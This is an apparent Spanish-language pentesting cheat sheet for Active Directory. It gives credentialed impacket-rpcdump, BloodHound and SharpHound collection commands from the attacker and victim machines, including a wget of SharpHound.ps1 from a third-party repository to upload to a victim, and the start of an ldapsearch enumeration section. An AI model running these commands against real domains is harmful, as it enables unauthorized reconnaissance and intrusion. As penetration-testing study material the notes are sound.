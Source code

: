 ### impacket-rpcdump

También podemos listar los servicios con esta herramienta. En caso de ver el `spoolsv` tenemos una vía potencial de explotarlo:

```shell
impacket-rpcdump <DOMINIO>/<USUARIO>:'<CONTRASEÑA>'@<HOSTNAME> | cat -l java
```
## BloodHound

Desde la máquina atacante:

```shell
python3 bloodhound.py -u '<USUARIO>' -p '<CONTRASEÑA>' -d <DOMINIO> -dc <HOSTNAME>.<DOMINIO> -ns <IP> --dns-tcp --zip -c All
```

Desde la máquina víctima:

- Descargar `SharpHound.ps1`:

```shell
wget https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1
```

- Subirlo a la máquina ya sea con un servidor de `SMB` o `upload` de `evil-winrm`.
-  Importar el módulo:

```powershell
Import-Module .\SharpHound.ps1
```

- Invocar a `BloodHound`

```powershell
Invoke-BloodHound -CollectionMethod All
```

Ahora queda descargar el `zip` y meterlo en `BloodHound`.

Como alternativa a estos dos en caso de que no funcionen, podemos usar [este](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe) `SharpHound`:

```powershell
.\sharphound.exe -c all
```

Ahora queda descargar el `zip` nuevamente y meterlo en `BloodHound` , como siempre.
## LDAP

Para enumerar este servicio podemos usar la herramienta `ldapsearch`:

```shell
ldapsearch -H ldap://<IP> -x -s base namingcontexts
```

Si la respuesta nos devuelve algo así:

```shell
DC=<DOMINIO>,DC=<LOCAL,COM etc...>
```
